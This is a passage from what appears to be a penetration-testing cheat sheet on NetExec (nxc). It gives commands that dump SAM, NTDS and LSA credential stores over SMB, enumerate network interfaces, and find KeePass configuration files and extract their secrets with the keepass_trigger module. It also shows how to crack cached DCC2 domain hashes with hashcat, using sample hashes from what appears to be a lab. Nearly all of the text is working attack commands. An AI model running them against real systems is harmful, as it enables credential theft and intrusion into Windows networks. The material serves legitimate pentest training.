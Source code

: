 ```bash
# SAM
nxc smb <ip> -u <user> -p <pass> --sam

# NTDS
nxc smb <ip> -u <user> -p <pass> --ntds --user <user>

# LSA
nxc smb <ip> -u <user> -p <pass> --lsa
```

The hash format that starts with `$DCC2$` (derived from `--lsa`) is **stronger than NTLM** and **cannot be used for a PtH attack**. For attempting to crack them, the domain and username needs to be removed; only the value starting with `$DCC2$` is required.

{% code overflow="wrap" %}
```bash
# Convert DCC2 hashes
$ cat MS01_10.129.204.133_2022-11-08_093944.cached| cut -d ":" -f 2
$DCC2$10240#julio#c2139497f24725b345aa1e23352481f3
$DCC2$10240#david#a8338587a1c6ee53624372572e39b93f
$DCC2$10240#john#fbdeac2c1d121818f75796cedd0caf0a

# Crack hashes
hashcat -m2100 hashes.txt /usr/share/wordlists/rockyou.txt
```
{% endcode %}
{% endtab %}

{% tab title="NICs" %}
Enumerate network interfaces:

```bash
# Via WMI
nxc smb <ip> -u <user> -p <pass> -M get_netconnections

# Via RPC
nxc smb <ip> -u <user> -p <pass> -M ioxidresolver
```
{% endtab %}

{% tab title="KeePass" %}
Locate the configuration file:

```bash
nxc smb <ip> -u <user> -p <pass> -M keepass_discover
```

Check for credentials:

{% code overflow="wrap" %}
```bash
nxc smb <ip> -u <user> -p <pass> -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=C:/Users/julio/AppData/Roaming/KeePass/KeePass.config.xml 
```
{% endcode %}
